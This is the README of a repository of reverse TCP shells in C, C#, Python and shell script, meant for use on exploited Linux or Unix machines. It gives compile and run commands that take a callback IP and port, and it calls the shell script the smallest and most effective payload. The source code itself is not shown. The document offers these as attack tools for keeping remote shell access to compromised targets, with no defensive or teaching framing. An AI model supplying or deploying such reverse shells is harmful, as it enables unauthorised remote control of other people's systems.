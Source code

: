 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
